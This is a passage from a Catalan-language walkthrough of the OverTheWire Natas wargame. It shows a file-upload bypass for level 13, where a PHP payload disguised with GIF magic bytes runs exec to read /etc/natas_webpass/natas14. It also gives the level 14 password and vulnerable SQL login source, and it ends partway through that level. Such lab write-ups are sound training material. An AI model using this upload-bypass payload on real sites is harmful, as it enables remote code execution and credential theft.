 
    Veiem que és mes o menys igual que l'anterior, però ara comprova si és un fitxer JPEG.
    Veiem que la funció que ho comprova és "exif_imagetype", per tant, esta utilitzant 'exif'.
    Exif són les metadades de les imatges.

    Fent una prova amb una imatge (per exemple: exiftool photo.jpeg), veig que ens mostra molts 'fields' útils:
    "File size, File Type, File Type Extension, MIME Type, etc"
    Tots els possibles: https://exiftool.org/TagNames/EXIF.html

    Per tant, crec que podem canviar l'imagetype perquè ens ho pilli com un fitxer php i poder executar el nostre codi.
    Per fer-ho, busco sobre els 'Magic Numbers', que són simplement els primers bytes d'un fitxer per identificar de quin tipus són.
    
    Per trobar + info de la imatge:
        file photo.jpg               
        photo.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, progressive, precision 8, 2392x2500, components 3
    Per trobar els primers bytes:
        xxd photo.jpg | head
        00000000: ffd8 ffe0 0010 4a46 4946 0001 0101 0048  ......JFIF.....H
    Tenim que els fitxers '.jpg', començen amb aquests bytes.

    Provem a fer una prova en local de modificar un fitxer:
    (creen un fitxer .txt i li apliquem aquest contingut, on podem comprovar que ens detecta com si fos un GIF).

        echo -n -e 'GIF87a' > file.txt
        file file.txt 
        file.txt: GIF image data, version 87a,

    
    Modifiquem el nostre fitxer perquè la web s'ho tragui i ara tenim:

        GIF8;
        <?php
        echo(exec('cat /etc/natas_webpass/natas14'));
        ?>


##  NATAS 14

    Username: natas14
    Password: qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
    URL:      http://natas14.natas.labs.overthewire.org

    <h1>natas14</h1>
    <div id="content">
    <?php
    if(array_key_exists("username", $_REQUEST)) {
        $link = mysqli_connect('localhost', 'natas14', '<censored>');
        mysqli_select_db($link, 'natas14');
        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }
        if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
                echo "Successful login! The password for natas15 is <censored><br>";
        } else {
                echo "Access denied!<br>";
        }
        mysqli_close($link);
    } else {
    ?>
    <form action="index.php" method="POST">
    Username: <input name="username"><br>